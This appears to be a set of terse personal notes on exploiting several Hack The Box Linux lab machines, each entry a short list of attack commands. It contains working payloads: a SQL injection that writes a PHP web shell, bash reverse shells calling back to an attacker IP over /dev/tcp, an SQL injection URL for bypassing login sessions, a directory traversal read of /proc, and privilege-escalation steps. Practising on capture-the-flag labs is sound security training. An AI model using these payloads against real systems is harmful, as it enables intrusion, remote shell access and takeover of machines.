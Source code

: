 # Lin-Backdoor
https://0xdf.gitlab.io/2022/04/23/htb-backdoor.html
```
http://10.10.11.125/wp-content/plugins/
WordPress Plugin eBook Download 1.1 - Directory Traversal
http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/812/cmdline
GNU gdbserver 9.2 - Remote Command Execution (RCE)
ps aux
screen -x root/root
```


# Lin-Jarvis
https://0xdf.gitlab.io/2019/11/09/htb-jarvis.html
```
SQL injection
http://10.10.10.143/room.php?cod=2 and 1=1
Webshell
http://10.10.10.143/room.php?cod=-2 UNION SELECT 1,'<?php system($_REQUEST["exec"]);?>',3,4,5,6,7 into outfile '/var/www/html/pwned.php'
curl -X POST http://10.10.10.143/pwned.php --data-urlencode 'exec=bash -c "bash -i >& /dev/tcp/10.10.14.3/1234 0>&1"'
sudo -l
Reverse Shell - Bash
echo 'bash -c "bash -i >& /dev/tcp/10.10.14.3/4444 0>&1"' > /tmp/shell.sh
sudo -u pepper /var/www/Admin-Utilities/simpler.py –p
find / -perm -4000 2>/dev/null
LinEnum
PrivEsc - SUID systemctl
```


# Lin-Pandora
```
nmap -sU -T5 10.10.11.136
snmpwalk -v 1 -c public 10.10.11.136
ssh daniel@10.10.11.136
ssh -D 9090 daniel@10.10.11.136
http://localhost/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271
Upload - php-reverse-shell.php
./LinEnum.sh
cat .ssh/id_rsa.pub
SUID - /usr/bin/pandora_backup
```


# Lin-Bashed
https://0xdf.gitlab.io/2018/04/29/htb-bashed.html
```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.68/FUZZ -fc 403 -e .aspx,.php,.txt,.html
/dev/phpbash.php
reverse shell - python
python3 -c "import pty;pty.spawn('/bin/bash')"
sudo -l
sudo -u scriptmanager bash -i
python -c shell.py
```


# Lin-SolidState
https://0xdf.gitlab.io/2020/04/30/htb-solidstate.html
```
nc 10.10.10.51 4555
telnet 10.10.10.51 110
Escape rbash
LinEnum.sh
reverse shell - nc
move to bash
```


# Lin-Haircut
```
/exposed.php
php-reverse-shell
10.10.10.24/uploads/shell2.php
LinEnum.sh
screen 4.5.0
```


